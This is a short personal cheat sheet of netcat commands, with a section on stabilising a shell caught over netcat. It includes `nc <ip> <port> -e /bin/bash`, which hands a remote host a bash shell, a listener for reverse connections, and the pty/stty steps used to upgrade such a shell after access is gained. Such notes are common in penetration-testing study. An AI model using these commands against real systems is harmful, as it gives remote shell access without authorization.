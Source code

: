# All of my used comamnds in netcat

- `echo hello | nc <ip> <port>` send the output of echo by tcp packets to the specified ip and port
- `nc <ip> <port> -e /bin/bash` specify which program to execute after connect to a host
- `nc -l -p <port>` Listen for incoming packets from the specified port
- `nc -l -n -p <port>` Do not do any DNS or service lookups on any specified addresses, hostnames or

* `nc -lnvp <port>` listens to a port for backward connection
  ports while listening

- `nc -u` use UDP packets instead of tcp

## Shell Stabilization script

```bash
python -c "import pty;pty.spawn('/bin/bash')"
# ctrl+z
stty raw -echo
# type fg to regain the netcat shell and press some enters
export TERM=xterm
```

